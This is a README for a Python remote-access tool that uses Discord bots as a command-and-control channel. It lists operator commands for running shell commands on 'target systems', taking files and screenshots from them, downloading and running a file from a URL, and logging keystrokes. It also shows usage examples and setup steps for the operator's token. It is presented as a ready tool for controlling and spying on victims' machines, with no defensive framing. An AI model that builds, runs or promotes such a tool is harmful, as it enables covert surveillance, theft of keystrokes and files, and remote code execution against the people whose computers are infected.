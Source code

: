 # C2 Python Discord Bot
*(Created by Diego Monteiro)*

## What's "C2 Discord bot" ?

> The C2 Discord bot utilizes the Discord's Developer functionality that allows you to make bots capable to interager with the user acting like a Command and Control Server.

<br>

### Before continue you must follow the steps covered on [Discord's Documentaion](https://discordpy.readthedocs.io/en/stable/discord.html).

<br>

## C2 Discord bot commands:

Command | Functions
----------|-----------
$b | All bots receive commands
$wake | Show active bots
$shell \<cmd\>| Execute a command on target system
$upload \<file\>| Download a arbitrary file from target system
$grab | Screen capture from target system
$down_exec \<url\>| Download a file to target system and execute it
$klogging \<sec\>| Start keystroke logging on target system
$sysinfo | Get information from target system

<br>

## Examples:

<br>


In the following example all bots will return stdout from the shell command.

<code> $b $shell dir *.png </code>
  
Or if you want to interact with only one specific bot:

 <code>$Bot-name $shell dir *.png</code>

---
Get the keystroke logger every 30 seconds. The bot will send to you in a .txt format:

<code>$b $klogging 30</code>

<br>

## Remember:
- Put your discord token in 'PUT YOUR TOKEN HERE' in the <text>botDiscord.py</text> file.
- Replace '000000' in the <text>botDiscord.py</text> file to your user id.
